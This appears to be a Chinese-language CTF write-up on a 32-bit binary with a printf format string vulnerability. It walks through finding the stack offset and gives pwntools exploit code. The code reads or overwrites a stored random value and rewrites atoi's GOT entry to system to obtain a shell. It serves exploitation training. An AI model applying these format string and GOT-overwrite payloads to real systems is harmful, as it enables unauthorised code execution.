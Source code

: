 ## 0x001 程序分析

进入程序，查看main函数

![](1.png)

首先获取一个随机数，保存到地址 **0x804c044** 中，然后接收输入用户名和密码，将密码转化为整数，与刚获取的随机数进行比较，如果相同，则可以直接获取系统权限。

## 0x002 漏洞分析

首先看下两处接收输入的地方，使用的是 **read** 函数，先读取 0x63 个字符保存到 **buf** 中，然后读取 0xf 个字符保存到 **nptr** 中。

由于 **buf** 的长度为 100，**nptr** 的长度为 16，因此都没有超过其最大长度，不存在栈溢出漏洞。

再看下输出的地方，可以看到在使用 **printf** 输出了 **Hello,** 之后，直接使用 **printf(buf)** 打印了 **buf** 的内容，因此这里由于 **printf** 的错误使用，导致了格式化字符串漏洞。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：

![](2.png)

开的栈溢出保护和 NX 不影响格式化字符串漏洞的利用。

首先获取输入内容在栈中相对于 **printf** 的偏移量。

![](3.png)

在程序运行后输入 **AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p**，可以从打印的内容中看到，出现 **0x41414141** 时，输入内容相对于 **printf** 的偏移量为10。

### 格式化字符串漏洞的利用方法1-任意地址读

解题思路一，通过任意地址读，将保存在地址 **0x804c044** 中的随机数读出来，然后作为 **password** 写入，这样输入的内容就与随机数相同，可通过校验。

已知保存随机数的地址为 **0x804c044**，偏移量为n，可构造payload如下：
```
payload = p32(0x804c044) + b"%10$s"

p.recvuntil("your name:")
p.sendline(payload)

p.recvuntil("Hello,")
p.recv(4)
random_data = u32(p.recv(4))

p.recvuntil("your passwd:")
p.sendline(str(random_data))
```

可成功获取随机数，之后再将获取到的内容作为输入，可校验成功。（本地测试运行可成功获取系统权限，但是远程不行。。。网上的说法是这个随机数是从服务器读入的，无法知道内容。。。）

### 格式化字符串漏洞的利用方法2-任意地址写

解题思路二，通过任意地址写，将 **0x804c044** 中的随机数修改为任意值，然后在输入相同的值，即可校验成功。

可构造payload如下：

```
payload = p32(0x804c044) + b"%10$n"
```

解题思路三，通过任意地址写，将后面调用到的函数的GOT地址修改为 **system** 函数的PLT地址，然后再结合后面输入需要的参数，即可执行 **system("/bin/sh", 0)** 命令获取权限。

可使用pwntools提供的格式化字符串漏洞利用函数 **fmtstr_payload** 构造payload，修改任意地址内容，使用方式如下：

```
payload = fmtstr_payload(10, {atoi_got:system_plt})
```

第一次改的时候没多想，直接把 **puts** 函数的GOT改了，然后发现参数 **（"/bin/sh", 0)** 传不过去。。。后来看了看才发现，**atoi** 函数的参数是通过输入传过去的，修改 **atoi** 函数的GOT地址才是正解。。。

### 最终EXP如下：

```
from pwn import *

context(os='linux', log_level='debug')

p = process("./pwn")
elf = ELF("./pwn")

atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]

payload1_1 = p32(0x804c044) + b"%10$n"
payload1_2 = b"%4c%12$n" + p32(0x804c044)
payload1_3 = fmtstr_payload(10, {0x804c044: 4})

payload2_1 = p32(atoi_got) + b"%" + str(system_plt-4).encode() + b"c%10$n"
payload2_3 = fmtstr_payload(10, {atoi_got: system_plt})

p.recvuntil("your name:")
p.sendline(payload1_1)

payload1 = b"4"
payload2 = b"/bin/bash\x00"

p.recvuntil("your passwd:")
p.sendline(payload1)

p.interactive()
```